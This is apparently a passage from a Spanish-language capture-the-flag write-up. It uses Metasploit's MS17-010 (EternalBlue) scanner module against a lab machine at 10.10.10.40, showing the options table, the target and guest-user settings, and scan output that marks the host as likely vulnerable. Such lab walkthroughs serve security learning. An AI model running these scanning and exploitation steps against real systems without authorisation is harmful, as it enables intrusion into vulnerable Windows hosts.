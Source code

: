 Vamos a ocupar el escaner para saber si es vulnerable al eternal blue y luego usaremos el Exploit:
```bash
use auxiliary/scanner/smb/smb_ms17_010
```

Y veamos que necesita este modulo para funcionar correctamente:
```bash
show options
.
Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                                                 Required  Description
   ----         ---------------                                                 --------  -----------
   CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        445                                                             yes       The SMB service port (TCP)
   SMBDomain    .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                      no        The password for the specified username
   SMBUser                                                                      no        The username to authenticate as
   THREADS      1                                                               yes       The number of concurrent threads (max one per host)
```

Necesitamos unicamente meter la IP de la máquina víctima y como conocemos el usuario, vamos a meterlo también:
```bash
set RHOSTS 10.10.10.40
.
set SMBUser guest
```

Y lo ejecutamos:
```bash
exploit
.
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
